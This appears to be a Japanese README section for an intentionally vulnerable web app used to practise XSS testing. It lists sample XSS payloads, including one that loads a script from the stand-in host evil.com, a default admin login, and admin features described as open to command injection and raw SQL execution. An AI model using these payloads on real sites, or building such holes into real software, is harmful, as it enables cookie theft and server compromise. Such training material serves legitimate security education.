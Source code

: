 ### 提供機能
1. **Reflected XSSテスト**
   - 検索機能によるXSSペイロード実行
   - リアルタイムテスト環境

2. **Stored XSSテスト**  
   - レビューシステムでの永続的XSS
   - データベース格納型攻撃

3. **DOM-based XSSテスト**
   - JavaScript DOM操作による攻撃
   - URLフラグメント経由の攻撃

### サンプルペイロード
```html
<!-- 基本的なスクリプト実行 -->
<script>alert('XSS')</script>

<!-- 画像タグでのイベントハンドラ -->
<img src=x onerror=alert('XSS')>

<!-- SVGタグでの実行 -->
<svg onload=alert('XSS')>

<!-- クッキー情報の取得 -->
<script>alert(document.cookie)</script>

<!-- 外部スクリプトの読み込み -->
<script src="http://evil.com/xss.js"></script>
```

---

## 🔧 管理者パネル機能

### アクセス情報
- **URL**: `/admin/dashboard`
- **管理者アカウント**: admin / admin123

### 追加機能
1. **システムコマンド実行** (`/admin/command`)
   - OS検出機能 (Windows/Linux対応)
   - Ping テスト (コマンドインジェクション脆弱性)

2. **データベース管理** (`/admin/database`)
   - SQLクエリ直接実行
   - バックアップ/復元機能

3. **ユーザー管理** (`/admin/users`)
   - 権限変更機能
   - パスワードリセット

---